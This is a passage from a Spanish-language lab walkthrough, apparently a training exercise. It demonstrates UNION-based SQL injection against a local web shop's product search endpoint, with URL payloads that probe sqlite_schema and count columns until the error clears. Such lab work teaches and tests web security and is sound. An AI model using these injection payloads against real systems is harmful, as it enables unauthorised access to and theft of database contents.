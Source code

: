 Mediante esta técnica podemos determinar si existe o no una tabla en concreto, y en el caso de existir, al usar ***UNION***, devolverá todos sus registros. Así que procedemos a cambiar ***x*** por ***sqlite_schema***. En la URL escribimos lo siguiente,
```
https://192.168.20.80:3000/rest/products/search?q=')) UNION SELECT * FROM sqlite_schema--
```

Como resultado tenemos un mensaje que nos dice que el operador ***UNION*** no tiene el mismo número de columnas, lo que demuestra que la tabla ***sqlite_schema*** se puede consultar.

![not have same number of columns](../img/lab-25-D/202211232022.png)

La técnica en el ataque ***UNION*** es encontrar el número de columnas correcto, así que hay que ir probando. Debemos poner en la URL lo siguiente, hasta que desaparezca el error.

```
https://192.168.20.80:3000/rest/products/search?q=')) UNION SELECT '1' FROM sqlite_schema--
```

```
https://192.168.20.80:3000/rest/products/search?q=')) UNION SELECT '1', '2' FROM sqlite_schema--
```

```
https://192.168.20.80:3000/rest/products/search?q=')) UNION SELECT '1', '2', '3' FROM sqlite_schema--
```

Seguimos probando hasta este.
```
https://192.168.20.80:3000/rest/products/search?q=')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_schema--
```

Nos fijamos en el último elemento que devuelve el recordset, en este ejemplo el ***44***.

![44](../img/lab-25-D/202211232032.png)
